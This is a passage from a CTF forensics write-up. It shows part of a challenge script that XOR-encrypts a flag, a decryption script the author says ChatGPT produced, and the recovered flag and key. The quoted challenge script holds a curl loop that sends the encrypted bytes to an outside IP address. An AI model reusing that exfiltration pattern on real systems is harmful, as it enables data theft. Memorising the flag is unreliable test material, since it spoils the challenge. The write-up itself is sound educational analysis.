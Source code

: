 ```

    for (( ptr=0; ptr < ${#DataIn}; ptr++ )); do

        val1=$( Asc "${DataIn:$ptr:1}" )
        val2=$( Asc "${key:$(( ptr % ${#key} )):1}" )

        val3=$(( val1 ^ val2 ))

        DataOut+=$(printf '%02x' "$val3")

    done

    for ((i=0;i<${#DataOut};i+=2)); do
    BYTE=${DataOut:$i:2}
    curl -m 0.5 -X POST -H "Content-Type: application/json" -d "{\"data\":\"$BYTE\"}" http://35.196.65.151:30899/ &>/dev/null
    done
}

XOREncrypt $KEY $FLAG

exit 0
```
This is the point where it was getting late (roughly 20 minutes until CTF ended) and I just gave chatgpt my previous hex values found from the pcap and this script and it gave me this script to reverse the XOR with:
```
ENCRYPTED="20 76 20 01 78 24 45 45 46 15 00 10 00 28 4b 41 19 32 43 00 4e 41 00 0b 2d 05 42 05 2c 0b 19 32 43 2d 04 41 00 0b 2d 05 42 28 52 12 4a 1f 09 6b 4e 00 0f"
KEY='s3k@1_v3ry_w0w'

# Convert encrypted string to an array of bytes
IFS=" " read -ra BYTE_ARRAY <<< "$ENCRYPTED"

DECRYPTED=""
for ((i = 0; i < ${#BYTE_ARRAY[@]}; i++)); do
    BYTE=${BYTE_ARRAY[i]}
    KEY_BYTE=${KEY:$((i % ${#KEY})):1}  # Obtain the corresponding key byte
    DECRYPTED_BYTE=$((0x$BYTE ^ $(printf '%d' "'$KEY_BYTE")))  # XOR operation
    DECRYPTED+="\\x$(printf '%02x' "$DECRYPTED_BYTE")"  # Convert back to ASCII
done

echo -e "$DECRYPTED"
```
running this script gave me the flag of `SEKAI{3v4l_g0_8rrrr_8rrrrrrr_8rrrrrrrrrrr_!!!_8483}`

